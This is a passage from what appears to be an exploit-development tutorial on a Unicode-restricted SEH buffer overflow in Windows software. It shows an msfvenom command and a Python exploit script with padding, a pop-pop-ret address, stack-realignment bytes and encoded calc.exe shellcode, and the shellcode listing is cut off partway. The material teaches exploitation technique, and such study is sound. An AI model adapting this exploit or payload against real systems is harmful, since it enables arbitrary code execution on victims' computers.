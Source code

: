 ```
msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegiseter=EAX -f python
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image017.png" alt=""><figcaption><p>MSFVenom Payload Generation</p></figcaption></figure>

\
After we copy this into our exploit code, it should look something like the following:

```

1.	f = open("crash-6.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"\x41" * 1019  
5.	buf += b"\x71\x71"                  # Unicode NOP  
6.	buf += b"\xB3\x48"                  # 0x004800b3 | pop ecx, pop ebp, ret  
7.	  
8.	#realigning stack  
9.	buf += b"\x75"                           # Unicode NOP  
10.	buf += b"\x54"                           # Push ESP  
11.	buf += b"\x75"                           # Unicode NOP  
12.	buf += b"\x58"                           # POP EAX  
13.	buf += b"\x75"                           # Unicode NOP  
14.	buf += b"\x05\xFF\x10"              # ADD EAX,  
15.	buf += b"\x75"                                 # Unicode NOP  
16.	buf += b"\x2d\xEA\x10"              # SUB EAX,  
17.	buf += b"\x75"  
18.	  
19.	buf += b"\x71" * 595  
20.	  
21.	#msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegister=EAX -f python  
22.	buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"  
23.	buf += b"\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"  
24.	buf += b"\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"  
25.	buf += b"\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"  
26.	buf += b"\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"  
27.	buf += b"\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"  
28.	buf += b"\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"  
29.	buf += b"\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"  
30.	buf += b"\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"  
31.	buf += b"\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"  
32.	buf += b"\x4c\x59\x58\x35\x32\x4b\x50\x4b\x50\x4d\x30\x31\x50"  
33.	buf += b"\x43\x59\x4b\x35\x50\x31\x39\x30\x42\x44\x54\x4b\x50"  
34.	buf += b"\x50\x30\x30\x54\x4b\x42\x32\x4c\x4c\x54\x4b\x31\x42"  
35.	buf += b"\x4c\x54\x54\x4b\x34\x32\x4f\x38\x4c\x4f\x48\x37\x50"  
36.	buf += b"\x4a\x4f\x36\x50\x31\x4b\x4f\x36\x4c\x4f\x4c\x31\x51"  
37.	buf += b"\x43\x4c\x4c\x42\x4e\x4c\x4f\x30\x39\x31\x38\x4f\x4c"  
38.	buf += b"\x4d\x4d\x31\x59\x37\x4a\x42\x4a\x52\x42\x32\x51\x47"  
39.	buf += b"\x34\x4b\x50\x52\x4c\x50\x34\x4b\x30\x4a\x4f\x4c\x54"  
40.	buf += b"\x4b\x30\x4c\x4e\x31\x34\x38\x4b\x33\x30\x48\x4b\x51"  
41.	buf += b"\x4a\x31\x30\x51\x54\x4b\x50\x59\x4d\x50\x4d\x31\x5a"  
42.	buf += b"\x33\x44\x4b\x31\x39\x4c\x58\x39\x53\x4e\x5a\x30\x49"  
43.	buf += b"\x44\x4b\x4e\x54\x34\x4b\x4d\x31\x4a\x36\x4e\x51\x4b"  
44.	buf += b"\x4f\x36\x4c\x59\x31\x38\x4f\x4c\x4d\x4b\x51\x49\x37"  
45.	buf += b"\x4e\x58\x4b\x30\x52\x55\x4b\x46\x4c\x43\x43\x4d\x4c"  
46.	buf += b"\x38\x4f\x4b\x43\x4d\x4e\x44\x42\x55\x5a\x44\x30\x58"  
47.	buf += b"\x54\x4b\x52\x38\x4e\x44\x4b\x51\x59\x43\x31\x56\x34"  
48.	buf += b"\x4b\x4c\x4c\x50\x4b\x34\x4b\x50\x58\x4d\x4c\x4b\x51"  
49.	buf += b"\x39\x43\x44\x4b\x4d\x34\x44\x4b\x4b\x51\x4a\x30\x35"  
50.	buf += b"\x39\x30\x44\x4d\x54\x4d\x54\x31\x4b\x51\x4b\x53\x31"  
51.	buf += b"\x50\x59\x50\x5a\x32\x31\x4b\x4f\x49\x50\x31\x4f\x31"  
52.	buf += b"\x4f\x31\x4a\x34\x4b\x4e\x32\x4a\x4b\x54\x4d\x51\x4d"  
53.	buf += b"\x51\x5a\x4b\x51\x54\x4d\x54\x45\x46\x52\x4b\x50\x4d"  
54.	buf += b"\x30\x4b\x50\x32\x30\x33\x38\x4e\x51\x34\x4b\x42\x4f"  
```